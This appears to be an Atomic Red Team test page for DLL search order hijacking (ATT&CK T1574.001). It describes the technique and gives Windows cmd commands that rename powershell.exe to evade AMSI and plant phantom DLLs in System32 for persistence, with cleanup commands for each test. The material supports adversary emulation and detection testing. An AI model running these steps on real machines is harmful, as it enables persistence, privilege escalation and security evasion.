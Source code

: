 # T1574.001 - Hijack Execution Flow: DLL Search Order Hijacking
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/001)
<blockquote>Adversaries may execute their own malicious payloads by hijacking the search order used to load DLLs. Windows systems use a common method to look for required DLLs to load into a program. (Citation: Microsoft Dynamic Link Library Search Order)(Citation: FireEye Hijacking July 2010) Hijacking DLL loads may be for the purpose of establishing persistence as well as elevating privileges and/or evading restrictions on file execution.

There are many ways an adversary can hijack DLL loads. Adversaries may plant trojan dynamic-link library files (DLLs) in a directory that will be searched before the location of a legitimate library that will be requested by a program, causing Windows to load their malicious library when it is called for by the victim program. Adversaries may also perform DLL preloading, also called binary planting attacks, (Citation: OWASP Binary Planting) by placing a malicious DLL with the same name as an ambiguously specified DLL in a location that Windows searches before the legitimate DLL. Often this location is the current working directory of the program.(Citation: FireEye fxsst June 2011) Remote DLL preloading attacks occur when a program sets its current directory to a remote location such as a Web share before loading a DLL. (Citation: Microsoft Security Advisory 2269637)

Phantom DLL hijacking is a specific type of DLL search order hijacking where adversaries target references to non-existent DLL files.(Citation: Hexacorn DLL Hijacking)(Citation: Adversaries Hijack DLLs) They may be able to load their own malicious DLL by planting it with the correct name in the location of the missing module.

Adversaries may also directly modify the search order via DLL redirection, which after being enabled (in the Registry and creation of a redirection file) may cause a program to load a different DLL.(Citation: Microsoft Dynamic-Link Library Redirection)(Citation: Microsoft Manifests)(Citation: FireEye DLL Search Order Hijacking)

If a search order-vulnerable program is configured to run at a higher privilege level, then the adversary-controlled DLL that is loaded will also be executed at the higher level. In this case, the technique could be used for privilege escalation from user to administrator or SYSTEM or from administrator to SYSTEM, depending on the program. Programs that fall victim to path hijacking may appear to behave normally because malicious DLLs may be configured to also load the legitimate DLLs they were meant to replace.</blockquote>

## Atomic Tests

- [Atomic Test #1 - DLL Search Order Hijacking - amsi.dll](#atomic-test-1---dll-search-order-hijacking---amsidll)

- [Atomic Test #2 - Phantom Dll Hijacking - WinAppXRT.dll](#atomic-test-2---phantom-dll-hijacking---winappxrtdll)

- [Atomic Test #3 - Phantom Dll Hijacking - ualapi.dll](#atomic-test-3---phantom-dll-hijacking---ualapidll)


<br/>

## Atomic Test #1 - DLL Search Order Hijacking - amsi.dll
Adversaries can take advantage of insecure library loading by PowerShell to load a vulnerable version of amsi.dll in order to bypass AMSI (Anti-Malware Scanning Interface)
https://enigma0x3.net/2017/07/19/bypassing-amsi-via-com-server-hijacking/

Upon successful execution, powershell.exe will be copied and renamed to updater.exe and load amsi.dll from a non-standard path.

**Supported Platforms:** Windows


**auto_generated_guid:** 8549ad4b-b5df-4a2d-a3d7-2aee9e7052a3






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy %windir%\System32\windowspowershell\v1.0\powershell.exe %APPDATA%\updater.exe
copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll
%APPDATA%\updater.exe -Command exit
```

#### Cleanup Commands:
```cmd
del %APPDATA%\updater.exe >nul 2>&1
del %APPDATA%\amsi.dll >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Phantom Dll Hijacking - WinAppXRT.dll
.NET components (a couple of DLLs loaded anytime .NET apps are executed) when they are loaded they look for an environment variable called APPX_PROCESS
Setting the environmental variable and dropping the phantom WinAppXRT.dll in e.g. c:\windows\system32 (or any other location accessible via PATH) will ensure the 
WinAppXRT.dll is loaded everytime user launches an application using .NET.

Upon successful execution, amsi.dll will be copied and renamed to WinAppXRT.dll and then WinAppXRT.dll will be copied to system32 folder for loading during execution of any .NET application.

**Supported Platforms:** Windows


**auto_generated_guid:** 46ed938b-c617-429a-88dc-d49b5c9ffedb






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll
ren %APPDATA%\amsi.dll WinAppXRT.dll
copy %APPDATA%\WinAppXRT.dll %windir%\System32\WinAppXRT.dll
reg add "HKEY_CURRENT_USER\Environment" /v APPX_PROCESS /t REG_EXPAND_SZ /d "1" /f
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_CURRENT_USER\Environment" /v APPX_PROCESS /f
del %windir%\System32\WinAppXRT.dll
del %APPDATA%\WinAppXRT.dll
```





<br/>
<br/>

## Atomic Test #3 - Phantom Dll Hijacking - ualapi.dll
Re-starting the Print Spooler service leads to C:\Windows\System32\ualapi.dll being loaded
A malicious ualapi.dll placed in the System32 directory will lead to its execution whenever the system starts

Upon successful execution, amsi.dll will be copied and renamed to ualapi.dll and then ualapi.dll will be copied to system32 folder for loading during system restart.
Print Spooler service is also configured to auto start. Reboot of system is required

**Supported Platforms:** Windows


**auto_generated_guid:** 5898902d-c5ad-479a-8545-6f5ab3cfc87f






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll
ren %APPDATA%\amsi.dll ualapi.dll
copy %APPDATA%\ualapi.dll %windir%\System32\ualapi.dll
sc config Spooler start=auto
```

#### Cleanup Commands:
```cmd
del %windir%\System32\ualapi.dll
del %APPDATA%\ualapi.dll
```





<br/>
